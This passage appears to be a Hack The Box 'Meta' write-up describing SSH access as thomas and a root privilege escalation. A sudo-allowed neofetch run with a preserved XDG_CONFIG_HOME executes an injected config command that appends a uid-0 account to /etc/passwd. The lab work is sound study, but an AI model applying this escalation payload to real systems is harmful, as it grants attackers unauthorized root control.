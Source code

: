 
And we connect as `thomas` on the box and grab the user flag.

    :::text
    ssh thomas@10.129.159.86 -i id_rsa
    thomas@meta:~$ cat user.txt
    34bdbba1436e176c3c13ceb0a045d740


# Root

As usual we run our enumeration script and process and found out that our user
can run `/usr/bin/neofetch \"\"` as root without password. Also the
`XDG_CONFIG_HOME` environment variable is preserved.

    :::text
    thomas@meta:~$ sudo -l
    Matching Defaults entries for thomas on meta:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        env_keep+=XDG_CONFIG_HOME

    User thomas may run the following commands on meta:
        (root) NOPASSWD: /usr/bin/neofetch \"\"


We modify the `neofetch` configuration file and the `image_source` parameter to
execute a command. The result of this command will be use as the `neofetch`
logo. We just create a new user with a know password (see
[Armageddon article](https://maggick.fr/2021/07/htb-armageddon.html))

`image_source="$(echo 'toto:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd)"`

We export the configuration file, copy our local version of it (as it was
regularly rewritten) and run the `sudo` command.

`export XDG_CONFIG_HOME="/home/thomas/.config" && cp config.conf .config/neofetch/config.conf && sudo /usr/bin/neofetch \"\"`


Then we can switch user as `toto` and get a `root` shell allowing to grab the
root flag.

    :::text
    thomas@meta:~$ su toto
    Password:
    root@meta:/home/thomas# id
    uid=0(root) gid=0(root) groups=0(root)
    root@meta:/home/thomas# cd
    root@meta:~# cat root.txt
    40e95295043f27cd9f2c6e21561dbb6d


# Wrapping up

A lot of enumeration and very specific vulnerability to exploit for this box.
I really do not like subdomain enumeration on HTB :/ also, the `ImageMagick`
exploit is not 100% reliable and I had to kill the box and initiate a new one
(resetting the box was not enough)

